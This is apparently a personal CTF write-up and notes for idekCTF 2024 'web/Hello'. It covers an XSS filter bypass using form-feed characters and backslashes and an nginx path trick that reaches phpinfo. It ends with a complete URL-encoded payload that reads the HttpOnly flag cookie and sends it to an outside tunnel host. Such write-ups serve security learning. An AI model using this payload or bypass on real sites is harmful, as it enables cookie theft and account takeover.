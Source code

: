 ```yaml
---
title: "idekCTF 2024: web/Hello"
date: 2024-08-19
author: Rylie
categories: ["ctf"]
tags: ["web", "idekctf"]
---
```


> Just to warm you up for the next Fight :"D

Challenge files: <!-- todo -->

For [idekCTF 2024](https://ctf.idek.team/), I'm back on the web train again. This time... Unbelievably stuck at a simple XSS challenge. Well, let's dive right into it!

## The challenge

You are given a web page, which responds to any parameters with the key `name` with `Hello, <name>`. For example:

```http
GET /?name=yes HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: idek-hello.chal.idek.team:1337
User-Agent: HTTPie

HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Date: Sat, 17 Aug 2024 05:48:12 GMT
Server: nginx/1.27.1
Transfer-Encoding: chunked

Hello, yes
```

Along with it, we have an admin bot. Inspecting the source code from the challenge files, we can see that it spawns a Puppeteer instance, connects to `CHALLENGE_ORIGIN`, setting a `HttpOnly` cookie with the value `FLAG=idek{PLACEHOLDER}`, and then connects to an arbitrary `TARGET_URL` that we can specify.

Our goal is now to *somehow* pull out the cookie to obtain the flag.

## The website

Before we take a look at the source code for the admin bot, I will start with snooping around the webpage itself. The setup is very simple - an `nginx` web server, serving `index.php`:

```php
<?php


function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}


if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}

?>
```

Here, it tries to truncate the string to 24 characters... but forgets to actually pass in the truncated value into `Enhanced_Trim()`. So, the raw value of the parameter `name` is then passed into `Enhanced_Trim()`, which removes all instances of `\r`, `\n`, `\t`, `/`, and spaces.

What this means so far is, we can attempt to insert some magical HTML into here, but `<script>` tags won't work, since you can't close them, as `/` is trimmed away. We can try using `<img onerror="">`, as it doesn't require a closing tag. Once again, spaces are trimmed, so it will result in the HTML `<imgonerror="">`. This isn't what we want.

Luckily, we can insert `U+000C FORM FEED (FF)` as a replacement for spaces, as these are *somehow* valid HTML separators. A little test with `?name=<img%0Conerror%3D"alert("hi")"%0Csrc="">`, and we got ourselves a nice alert popping up on our browser window!

Now then... What's next?

## Randomly fetching things

With the `onerror` attribute now up and rolling, it's time I try fetching something, but clearly that wouldn't be easy. For any non-relative links, you need the *entire* URL, as in `http://some.domain/`. "But, we can't use the `/` in the parameter!", I hear you say. Well, somehow, someway, the *backwards* slash (`\`) counts as a valid separator in this case, so we can do `http:\\some.domain\` and it will fetch properly. Now that we have a method to fetch from the HTML injection, let's just try leaking the cookie naively. Once again, note that the cookie is set as `HttpOnly`, but it doesn't hurt to get a try right?

Using [`cloudflared`](https://github.com/cloudflare/cloudflared), I booted up a quick tunnel to expose a Node.js server to the Internet. I will *attempt* to log any response headers to see what comes up.

```js
const http = require('http');

const server = http.createServer((req, res) => {
  console.log('request headers:', req.headers);

  res.statusCode = 200;
  res.setHeader('Content-Type', 'text/plain');
  res.end('hi');
});

const PORT = 3000;
server.listen(PORT, () => {
  console.log(`Server running at http://localhost:${PORT}/`);
});
```

## todo
- snoop source code
- query `?name=<string>`, plan is to get xss somehow.
    - this is not sanitized, injecting `<script>` works?
        - `Enhanced_Trim($inp)` trims away `/`, can't close `<script>` tag.
    - tracking pixel? `<img onload="">`?
        - `Enhanced_Trim($inp)` trims away spaces, can't write the `onload` attribute.
        - using 0x0C as a replacement for spaces works.
        - sanity check: `<img%0Conerror%3D"alert("hi")"%0Csrc="">` works as we expected.
        - can't do `fetch("http://some.domain")` because forward slashes are trimmed out.
        - seems like the method is to fetch stuff *in* the server?
        - forward a request from our `TARGET_URL` back to the server, including credentials using `{ credentials: "include" }` as an attempt to leak cookies
            - doesn't work, don't even bother, `HttpOnly` too strong.
        - `info.php` prints the result of `phpinfo()`, would it leak the cookie from the request?
            - fetching from the site using `?name=` throws a 403
            - fetching it from the target url *also* throws a 403?
            - inserting `Host` and `Origin` headers doesn't work.
        - vulnerability in nginx config:
            ```
            location ~ \.php$ {
            root           /usr/share/nginx/html;
            fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
            include fastcgi_params;
            fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
            }
            ```
            - can access `info.php` by using `info.php/index.php` as route.
        - now to somehow leak it using the puppeteer instance.
        - `\` is a valid separator -> this works for the the fetches
        - access from the given url because of cors: `?name=%3Cimg%0Conerror%3D%27fetch(%22info.php\\index.php%22%2C%20%7B%20credentials%3A%20%22include%22%7D)%27%0Csrc=%22%22%3E`
        - wait but the flag is set **AFTER** you go to the site.
        - the browser gets set to `null` after you're done -> you don't have a second chance
        - flow looks like:
            - go to site
            - flag gets set
            - **somehow** fetch `info.php` to leak flag
            - send back to our server
        - this means `TARGET_URL` has to be the challenge instance *again* to view leaked flag?
        - final script:`http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Conerror%3D%22fetch%28%27info.php%5C%5Cindex.php%27%2C%7Bcredentials%3A%27include%27%7D%29.then%28response%3D%3Eresponse.text%28%29%29.then%28data%3D%3E%7Bdocument.body.innerHTML%3Ddata%3Bfetch%28%27https%3A%5C%5C%5C%5Cbar-fleet-nm-super.trycloudflare.com%5C%5C%27%2BArray.from%28document.getElementsByClassName%28%27e%27%29%29.filter%28item%3D%3Eitem.innerText%3D%3D%3D%27%24_COOKIE%5B%5C%27FLAG%5C%27%5D%27%29%5B0%5D.parentElement.children%5B1%5D.innerText%29%7D%29.catch%28e%3D%3Edocument.body.innerHTML%3De%29%3B%22%0Csrc=%22%22%3E`
        - methodology:
            - bypass nginx config to access `info.php`
            - dump `info.php` to current document
            - fetch flag from the html
            - send a request back to a server
